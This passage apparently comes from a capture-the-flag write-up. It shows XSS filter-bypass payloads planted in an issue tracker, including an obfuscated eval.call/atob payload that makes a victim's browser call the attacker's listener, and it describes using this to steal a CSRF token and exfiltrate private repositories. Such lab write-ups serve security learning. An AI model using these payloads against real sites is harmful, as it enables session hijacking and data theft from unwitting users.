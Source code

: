 From here, we can think about how to implement an XSS attack. Looking at inject.js, we can see that it makes a request to a certain url and checks for the issues. When adding to the issues, we can see that a payload `test<test><img SRC="http://10.10.x.x./test.txt">` works, meaning it bypasses the inject.js checks. After a while, the issue is closed, and I assume the user Charlie is the one closing them.

<figure><img src="../../../.gitbook/assets/image (144) (1) (1).png" alt=""><figcaption></figcaption></figure>

So someone is indeed checking the issues, and we can exploit this fact. So now we need to somehow make charlie request for our page, and observation of Burp reqeusts implies we need to steal the CSRF token to access his hidden repositories.

<figure><img src="../../../.gitbook/assets/image (88) (1) (1).png" alt=""><figcaption></figcaption></figure>

After some more testing, I come across the eval.call XSS method through the page, and was able to include this within the issues to get a hitback on my netcat listener!

This is the payload used: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

<figure><img src="../../../.gitbook/assets/image (140) (1).png" alt=""><figcaption></figcaption></figure>

What this does is essentially is `fetch('http://10.10.x.x')` for Charlie to execute upon looking at the issues.

Now, we can use this XSS to send us the information from charlie's repos. This can be done using this payload:

<figure><img src="../../../.gitbook/assets/image (90) (1) (1).png" alt=""><figcaption></figcaption></figure>

What this essentially does is this:

<figure><img src="../../../.gitbook/assets/image (95) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can view the callback:

<figure><img src="../../../.gitbook/assets/image (127) (1).png" alt=""><figcaption></figcaption></figure>
